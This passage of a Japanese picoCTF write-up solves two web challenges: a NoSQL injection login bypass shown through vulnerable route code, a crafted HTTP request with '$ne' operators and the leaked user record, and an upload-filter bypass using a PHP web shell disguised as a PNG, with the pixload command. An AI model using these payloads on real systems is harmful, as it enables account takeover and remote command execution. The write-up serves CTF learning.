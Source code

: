 ```js
      email: email.startsWith("{") && email.endsWith("}") ? JSON.parse(email) : email,
      password: password.startsWith("{") && password.endsWith("}") ? JSON.parse(password) : password
    });

    if (users.length < 1)
      return new Response("Invalid email or password", { status: 401 });
    else {
      return new Response(JSON.stringify(users), { status: 200 });
    }
  } catch (error) {
    return new Response("Internal Server Error", { status: 500 });
  }
};
```
ソースコード(api/login/route.ts)を見るとこのログインで渡された`email`や`password`が`"{"`で始まり`"}"`で終わる場合Jsonとして解釈するようになっていることがわかる。また、なんのサニタイズもなくクエリとして使っている。よってここにNo Sql Injectionの脆弱性がある。
リクエストをInterceptして、POSTデータを悪意のあるものに変えると、
```http
POST /api/login HTTP/1.1
Host: atlas.picoctf.net:57221
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 60
Referer: http://atlas.picoctf.net:57221/
Origin: http://atlas.picoctf.net:57221
Connection: close

{"email": "{\"$ne\": null}", "password": "{\"$ne\": null}" }
```
```http
HTTP/1.1 200 OK
vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Accept-Encoding
content-type: text/plain;charset=UTF-8
date: Sun, 07 Apr 2024 13:04:13 GMT
connection: close
Content-Length: 237

[{"_id":"661298c3ac7c18084809dc5d","email":"joshiriya355@mumbama.com","firstName":"Josh","lastName":"Iriya","password":"Je80T8M7sUA","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzE0MzI5Y2ZhfQ==","__v":0}]
```
ユーザー情報を含んだレスポンスが返ってくる。tokenが怪しいと思ったのでbase64でデコードしたらフラグを得ることができた。`picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_14329cfa}`
## trickster
画像をアップロードすることができるアプリケーションだ。
どんなファイルをアップロードできるか色々調べてみると、PNGのヘッダーが含まれていて、ファイル名に`.png`が含まれているものをアップロードすることができることがわかった。
よってpixloadというツールを使ってweb shellを提供する、PNGのふりをしたPHPファイルを作成して、それをつかってフラグを得た。
```bash
pixload-png --payload "<?php system(\$_GET['cmd']); ?>" payload.png.php
```
```bash
xxd payload.png.php
```
```
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 0020 0000 0020 0802 0000 00fc 18ed  ... ... ........
00000020: a300 0000 0970 4859 7300 000e c400 000e  .....pHYs.......
00000030: c401 952b 0e1b 0000 0019 4944 4154 4889  ...+......IDATH.
00000040: edc1 3101 0000 00c2 a0f5 4fed 610d a000  ..1.......O.a...
00000050: 0000 6e0c 2000 01c8 a288 fe00 0000 0049  ..n. ..........I
```